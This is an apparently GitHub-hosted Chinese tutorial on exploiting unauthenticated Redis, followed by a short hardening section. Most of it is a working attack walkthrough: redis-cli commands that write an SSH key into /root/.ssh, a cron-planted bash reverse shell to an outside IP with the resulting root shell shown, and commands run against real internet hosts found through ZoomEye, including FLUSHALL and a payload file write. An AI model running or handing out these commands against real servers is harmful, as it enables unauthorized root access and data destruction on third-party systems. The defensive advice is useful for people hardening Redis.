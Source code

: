 # redis 入侵测试及防御策略

## 1 漏洞概述

- Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

## 2 入侵测试
> cd /home/dh/.ssh
> 登陆测试　ssh root@192.168.1.30
> (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > dh.txt
> cat dh.txt | redis-cli -h 192.168.1.30 -x set crackit
> redis-cli -h 192.168.1.30 CONFIG set dir /root/.ssh
> redis-cli -h 192.168.1.30 config set dbfilename "authorized_keys"
> redis-cli -h 192.168.1.30 save
再登陆测试　ssh root@192.168.1.30

### 　利用redis 反弹shell

- １　redis 非root 启动无权限　
这时候最多搞点数据破坏　flushall 
对其他操作基本上没有权限
dh@dh-pc ~ $ redis-cli -h 192.168.1.30 config set dir /var/spool/cron
(error) ERR Changing directory: Permission denied
dh@dh-pc ~ $ redis-cli -h 192.168.1.30
192.168.1.30:6379> config set dir /var/spool/cron
(error) ERR Changing directory: Permission denied

- 2	redis root 启动有权限（centos 系列会反弹成功，debian 系列不会成功）
登陆vps:  nc -lvvp 22222 
开始操作
redis-cli -h 192.168.1.30 -p 6379 config set dir /var/spool/cron
redis-cli -h 192.168.1.30 -p 6379 config set dbfilename root
echo -e "\n\n\n* * * * * /bin/bash -i >& /dev/tcp/52.221.230.100/22222 0>&1\n\n\n" | redis-cli -h 192.168.1.30 -p 6379 -x set 1
redis-cli -h 192.168.1.30 -p 6379 save || redis-cli -h 192.168.1.30 -p 6379 bgsave 

- 然后观察刚刚登陆的vps终端
ubuntu@ip-172-31-31-79:~$ nc -lvvp 22222
Listening on [0.0.0.0] (family 0, port 22222)
Connection from [211.144.0.242] port 22222 [tcp/*] accepted (family 2, sport 33096)
[root@vv30-cimhealth ~]# 
[root@vv30-cimhealth ~]# ls
30iptables
anaconda-ks.cfg

## 3 防御策略
>安全加固
1 防火墙　iptables -I INPUT -p TCP  --destination-port 6379 -s 192.168.0.0/16 -j ACCEPT
2 不暴露公网　　bind 10.1.1.2
3 配置文件修改，在redis.conf 中加入如下，防止redis-cli 中乱操作 
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command CONFIG ""
＃rename-command EVAL  ""
＃rename-command KEYS ""
４ 以最小权限启动redis
useradd redis -s /sbin/nologin -M
chown -R redis.redis /data0/redis
/usr/bin/redis-cli -h 10.170.175.113 save
cp -vf /data0/redis/6379/data/6379-dump.rdb  /data0/redis/6379/redis_backup/$(date +%Y%m%d)_redis_dump.rdb
sudo -u redis  /usr/bin/redis-server /data0/redis/6379/conf/redis-6379.conf
5 为redis 配置安全密码
在redis.conf 中配置requirepass mypassword

## 4 额外测试
- 打开　https://www.zoomeye.org port:6379
https://www.zoomeye.org/search?q=port%3A6379&t=host
查看到开放6379 端口的ip
随便抓几个测试
159.203.170.119
159.203.86.225
记录本次操作
redis-cli -h 159.203.86.225
info （查看到redis 主机信息及角色）
可以操作的权限很多
CONFIG GET (dir|dbfilename|logfile|pidfile)
CONFIG GET dir
set dh test
get dh test 
FLUSHALL (清空所有数据)
159.203.86.225:6379> CONFIG set dir /root
(error) ERR Changing directory: Permission denied
【此处是应该没有权限】
CONFIG SET dir /var
CONGIG SET dbfilename test.php
SET payload "could be php or shell or whatever"
BGSAVE

dh@dh-pc ~/.ssh $ redis-cli -h 159.224.49.116
159.224.49.116:6379> keys *
1) "crackit"
2) "ffxtsmcdhe"
3) "xgmhhvskps"
159.224.49.116:6379> get crackit
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEAqwRhKmAIN47PYZVBAGF7+u5QuSJXRFBjJJYgy6lCoiuWQJP/Pum5fQnCiP8w9sb4UgIWM3roAV6iwB/hErdu5tvPuQd/6wc9NGswBgMJN1lsyeqYabyMw1L/vAJ7BKbGVKezTGeNIXYQDzcBFBDbcZCK2r0M01Yodl/HVLqo5Fs= root@PPOMailServer02\n\n\n\n"
(1.41s)
159.224.49.116:6379> get ffxtsmcdhe
"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/115.89.238.178/31222 0>&1\n\n"
159.224.49.116:6379> get xgmhhvskps
"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/115.89.238.178/31230 0>&1\n\n"


